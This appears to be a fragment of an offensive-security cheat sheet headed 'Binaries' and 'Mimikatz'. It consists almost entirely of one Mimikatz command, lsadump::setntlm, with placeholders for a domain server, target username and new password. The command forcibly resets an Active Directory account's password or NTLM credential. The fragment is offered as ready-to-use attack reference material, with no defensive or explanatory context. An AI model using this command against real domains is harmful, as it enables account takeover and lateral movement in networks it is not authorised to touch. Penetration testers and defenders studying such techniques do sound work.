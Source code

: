 # Binaries

## Mimikatz

```
mimikatz # lsadump::setntlm /server:<domain.tld> /user:<target_username> /password:<new_password>
```